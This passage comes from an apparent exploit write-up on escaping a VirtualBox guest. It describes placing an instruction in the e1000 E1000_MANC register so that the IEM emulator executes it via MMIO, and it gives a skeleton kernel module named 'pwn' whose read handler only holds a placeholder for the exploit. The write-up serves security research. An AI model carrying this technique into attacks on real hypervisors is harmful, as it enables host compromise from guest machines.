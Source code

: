 * The read mask and write mask are both `0xffffffff`, nothing will be masked off.
* Both `e1kRegReadDefault` and `e1kRegWriteDefault` read/write the value directly without any modification.

So, we can put our instruction in the `E1000_MANC` register, then jump to the corresponded MMIO address so IEM will fetch and emulate our instruction, triggering `iemOp_ReadTable` and `iemOp_WriteTable`.


Here we'll write a driver that will do the things mentioned above. First, some functions for creating the driver:


```c
static int drv_open(struct inode *inode, struct file *filp);
static ssize_t drv_read(struct file *file, char __user *buf,size_t count, loff_t *ppos);

static struct file_operations drv_fops = {
    open : drv_open,
    read : drv_read
};

static int drv_open(struct inode *inode, struct file *filp) {
    printk(KERN_INFO "In drv_open\n");
    return 0;
}

static struct miscdevice pwn_miscdev = {
    .minor      = 100,
    .name       = "pwn",
    .fops       = &drv_fops,
};


static ssize_t drv_read(struct file *file, char __user *buf,
			size_t count, loff_t *ppos) {
    
    /* We put our exploit here */
    printk(KERN_INFO "In drv_read\n");
    return 0;
}


int init_module(void) { 
    return misc_register(&pwn_miscdev); 
 
} 
 
void cleanup_module(void) { 
	misc_deregister(&pwn_miscdev); 
} 
 
MODULE_LICENSE("GPL");
```
{: file='test.c'}
